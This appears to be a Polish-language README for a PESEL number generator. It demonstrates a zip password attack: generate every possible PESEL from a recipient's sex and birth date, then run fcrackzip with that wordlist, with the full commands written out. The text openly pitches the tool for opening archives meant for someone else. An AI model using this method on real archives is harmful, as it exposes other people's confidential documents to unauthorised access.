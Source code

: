 [![Code style: black](https://img.shields.io/badge/code%20style-black-000000.svg)](https://github.com/psf/black) ![](https://img.shields.io/github/workflow/status/mycielski/pesel-gen/Pylint)

## Demo: Szukanie hasła do pliku zip

Przesyłanie poufnych danych w pliku zip zaszyfrowanym numerem PESEL jest częstą praktyką. Być może komuś zależy na
uzyskaniu dostępu do takiego archiwum, mimo, że nie jest jego adresatem. Moje narzędzie bardzo ułatwia to zadanie.

---

W tym przykładzie pokazuję, jak znaleźć hasło do pliku zip znając jedynie płeć i datę urodzenia adresata. Wystarczy
wykonać skrypt `zip_password` (`.py` lub `.sh` - ich działania są tożsame) aby zobaczyć jak szybko można odnaleźć hasło
do zipa.

#### Krok po kroku:

- Skrypt tworzy najpierw archiwum `encrypted.zip` zaszyfrowany hasłem `02070803628` (PESEL kobiety urodzonej w dniu
  08-07-1902). Jego zawartością jest `standard-document.pdf`.
    ```shell
    zip -P 02070803628 encrypted.zip standard-document.pdf
    ```

- Następnie tworzona jest wordlista na podstawie podanej płci i daty urodzenia.

    ```shell
    ../target/release/pesel-gen -g f -b 8-07-1902 > ./wordlist.txt
    ```

- Do znalezienia hasła na podstawie wordlisty wykorzystywany jest program `fcrackzip`.
    ```shell
    fcrackzip --use-unzip --dictionary --init-password ./wordlist.txt ./encrypted.zip
    ```
  Informacja o znalezieniu hasła powinna wyświetlić się w konsoli.


- W ostatnim kroku skrypt sprząta po sobie.
    ```shell
    rm ./wordlist.txt
    rm ./encrypted.zip
    ```

Wszystko dzieje się bardzo szybko. Zachęcam Cię, czytelniku, do wstawienia breakpointów w skrypcie `zip_password` aby
dać sobie chwilę na zweryfikowanie poprawności działania.
